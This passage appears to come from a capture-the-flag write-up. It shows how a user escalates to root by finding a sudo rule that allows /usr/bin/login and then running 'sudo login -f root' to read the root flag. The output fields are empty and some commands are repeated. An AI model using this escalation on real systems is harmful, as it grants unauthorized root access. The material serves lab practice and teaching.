

5.2 See "sudoers" (Second flag)
1. See “sudoers”.
pat@murph:/tmp$ sudo -l
Output:

“pat” user can run “/usr/bin/login”.
2. Get root with the following command.
pat@murph:/tmp$ sudo login -f root
Output:
3. Get the flag.
root@murph:~# cd /root
root@murph:~# ls
root@murph:~# cat root.txt
root@murph:~# ls
root@murph:~# cat root.txt
Output: